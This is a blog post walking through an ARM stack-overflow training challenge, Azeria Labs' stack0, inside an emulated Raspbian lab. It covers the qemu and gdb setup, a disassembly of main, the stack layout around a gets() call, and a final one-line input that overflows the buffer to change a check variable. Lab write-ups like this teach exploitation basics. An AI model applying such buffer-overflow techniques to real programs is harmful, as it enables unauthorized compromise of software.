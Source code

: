 ```yaml
---
layout: post
title: "Smashing ARM Stack for Fun - Part I"
tags: [reversing, exploiting, ARM, qemu, iasm, azeria-labs]
inline_default_language: nasm
---
```


This is the first of a serie of posts about exploiting 32 bits Arm
binaries.

These [challenges](https://github.com/azeria-labs/ARM-challenges) were
[taken](https://azeria-labs.com/part-3-stack-overflow-challenges/)
from [Azeria Labs](https://azeria-labs.com).<!--more-->

## Setup

{% call marginnotes() %}
For the records:

```cpp
qemu-system-arm
  -M versatilepb
  -cpu arm1176
  -m 256
  -drive "file=2020-12-02-raspios-buster-armhf-lite.img,if=none,index=0,media=disk,format=raw,id=disk0"
  -device "virtio-blk-pci,drive=disk0,disable-modern=on,disable-legacy=off"
  -net "user,hostfwd=tcp::3022-:22,hostfwd=tcp::9999-:9999"
  -dtb versatile-pb-buster-5.4.51.dtb
  -kernel kernel-qemu-5.4.51-buster
  -append "root=/dev/vda2 panic=1"
  -no-reboot
  -net nic
  -nographic
```
{% endcall %}

Let's [spin a Rasbian](/articles/2020/12/15/Qemulating-Rasbian-ARM.html)
first. Make your to forward a port for the `ssh` and another for the
`gdbserver` so we can connect to them from the host machine.

There are [7 binaries](https://github.com/azeria-labs/ARM-challenges)
compiled for ARM for 32 bits, not stripped and dynamically linked.

We will focus on `stack0` for now.

```shell
$ file stack0
stack0: ELF 32-bit LSB executable, ARM, EABI5 version 1 (SYSV),
dynamically linked, interpreter /lib/ld-linux-armhf.so.3,
for GNU/Linux 2.6.32,
BuildID[sha1]=1171fa6db1d5176af44d6d462427f8d244bd82c8,
not stripped
```

Spin the `gdbserver`{.none}:

```shell
pi@raspberrypi:~$ gdbserver :9999 stack0
Process /home/pi/stack0 created; pid = 410
Listening on port 9999
```

And now, from the host, connect your `gdb` to the server. In my case I
will use [pwndbg](https://github.com/pwndbg/pwndbg), an enhanced version
of `gdb`.

```shell
$ gdb-multiarch -q -x ~/scripts/pwndbg.gdbinit
pwndbg> target extended-remote :9999
Remote debugging using <...>
Reading /home/pi/stack0 from remote target...
```

In addition to the debugger, I will use an
[interactive assembler](https://github.com/bad-address/iasm) to play
with some Arm code that I may not understand but which I don't want to
run in the debugger
(see [my post about `iasm`](/articles/2021/01/09/Interactive-Assembler.html)).

## Stack initialization

The stack initialization of `main`{.none} is as follows:

```nasm
pwndbg> pdisass &main
 ► 0x1044c <main>       push   {fp, lr}
   0x10450 <main+4>     add    fp, sp, #4
   0x10454 <main+8>     sub    sp, sp, #0x50
   0x10458 <main+12>    str    r0, [fp, #-0x50]
   0x1045c <main+16>    str    r1, [fp, #-0x54]
   0x10460 <main+20>    mov    r3, #0
   0x10464 <main+24>    str    r3, [fp, #-8]
   0x10468 <main+28>    sub    r3, fp, #0x48
   0x1046c <main+32>    mov    r0, r3
   0x10470 <main+36>    bl     #gets@plt <gets@plt>
```

The `lr` and the `fp` are pushed in that order (0x8 bytes),
the `fp` is updated and points to the pushed `lr` (`add fp, sp, #4`)
and then 0x50 bytes are allocated (`sub sp, sp, #0x50`).

The arguments of `main`{.none}, registers `r0` and `r1`, are saved on *top* of
the stack (`str r0, [fp, #-0x50]`, `str r1, [fp, #-0x54]`).

And then the cookie is stored:

```nasm
   0x10460 <main+20>    mov    r3, #0
   0x10464 <main+24>    str    r3, [fp, #-8]
```

This is our target.

## Call to `gets`{.none}

In the `main`{.none} function a call to `gets`{.none} is done with a buffer
allocated in the stack:

```nasm
pwndbg> pdisass
   0x10460 <main+20>    mov    r3, #0
   0x10464 <main+24>    str    r3, [fp, #-8]
   0x10468 <main+28>    sub    r3, fp, #0x48
   0x1046c <main+32>    mov    r0, r3
 ► 0x10470 <main+36>    bl     #gets@plt <gets@plt>
        r0: 0xbefffb6c ◂— 0x0
        r1: 0xbefffd04 —▸ 0xbefffe14 ◂— '/home/pi/stack0'
        r2: 0xbefffd0c —▸ 0xbefffe24 ◂— 'SHELL=/bin/bash'
        r3: 0xbefffb6c ◂— 0x0
```

The registers before the call to `gets`{.none} were:

```
------  ----  ------  ---------  ------  ---------  ------  ------
    r0  1fb4  r1      eeee:eeee  r2      0          r3      1fb4
    r4  0     r5      0          r6      0          r7      0
    r8  0     r9/sb   0          r10     0          r11/fp  1ffc
r12/ip  0     r13/sp  1fa8       r14/lr  aaaa:aaaa  r15/pc  100:20
------  ----  ------  ---------  ------  ---------  ------  ------
```

And the manually-annotated stack was:

```python
100:20> ;! M[sp:]   # <-- from sp to the end of the mapped page
[
        --
        |   \xee\xee\xee\xee   == r1
        |   \xdd\xdd\xdd\xdd   == r0
  0x50  |   \x00\x00\x00\x00
        |   ... 16 more rows full of zeros ...
cookie -|-->\x00\x00\x00\x00
        --
   0x8  |   \xbb\xbb\xbb\xbb   == fp
 fp ----|-->\xaa\xaa\xaa\xaa   == lr
        --
] <-- base of stack
```

`r3` points *almost* to the begin of the bunch of zeros, just 4
bytes below.

We can verify this writing and inspecting the memory:

```python
100:20> ;! M[r3:] = b"AAAABBBBCCCC"
100:20> ;! M[sp:]
[
        \xee\xee\xee\xee
        \xdd\xdd\xdd\xdd
        \x00\x00\x00\x00    == these are still zeros
buf --> AAAA
        BBBB
        CCCC
        \x00\x00\x00\x00
        ...
]
```

Indeed, the destination buffer of `gets`{.none} has 0x48 - 0x8 bytes
(we subtract 4 bytes for the cookie and 4 bytes for the stored `fp`)

```python
100:20> ;! M[sp:]
[
        --
        |   \xee\xee\xee\xee   == r1
        |   \xdd\xdd\xdd\xdd   == r0
  0x50  |   \x00\x00\x00\x00
buf ----|-->AAAA
        |   BBBB
        |   CCCC
        |   ... 13 more rows full of zeros ...
cookie -|-->\x00\x00\x00\x00
        --
   0x8  |   \xbb\xbb\xbb\xbb   == fp
 fp ----|-->\xaa\xaa\xaa\xaa   == lr
        --
]
```

## The target

The program stores a cookie initialized to zero in the stack *before*
the call to `gets`{.none} and then it checks its value.

```nasm
   0x10460 <main+20>    mov    r3, #0
   0x10464 <main+24>    str    r3, [fp, #-8]
    ...
   0x10470 <main+36>    bl     #gets@plt <gets@plt>
   0x10474 <main+40>    ldr    r3, [fp, #-8]
   0x10478 <main+44>    cmp    r3, #0
```

If it is still zero jumps to a `puts`{.none} that prints `"Try again?"`.

But if an overflow occurs, the cookies will be non-zero and another
`puts`{.none} will executed.

This is the print that we are looking for:

```nasm
   0x10480 <main+52>    ldr    r0, [pc, #0x18]
 ► 0x10484 <main+56>    bl     #puts@plt <puts@plt>
```

The address of the string to print is stored in the code segment, 0x18
bytes below the program counter at 0x10480.

However 0x10480 + 0x18 == 0x10498 is not correct:

```nasm
pwndbg> x/4 0x10498
0x10498 <main+76>:  0xe24bd004  0xe8bd8800  0x0001051c  0x00010548
```

почему?

> "When using R15 as the base register you must remember it contains an
> address 8 bytes on from the address of the current instruction."
> <cite class="epigraph">Arm documentation</cite>

So it is 0x10498 + 0x8:

```nasm
pwndbg> x/4 0x104a0
0x104a0 <main+84>:  0x0001051c  0x00010548  0xe92d43f8  0xe1a07000

pwndbg> p (char*)0x0001051c
$21 = 0x1051c "you have changed the 'modified' variable"
```

## The exploit

Writing 0x40+1 bytes we will overflow the buffer overwriting the cookie
in the stack but without corrupting the stack further.

```shell
pi@raspberrypi:~$ echo -n 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA' | ./stack0
you have changed the 'modified' variable
```
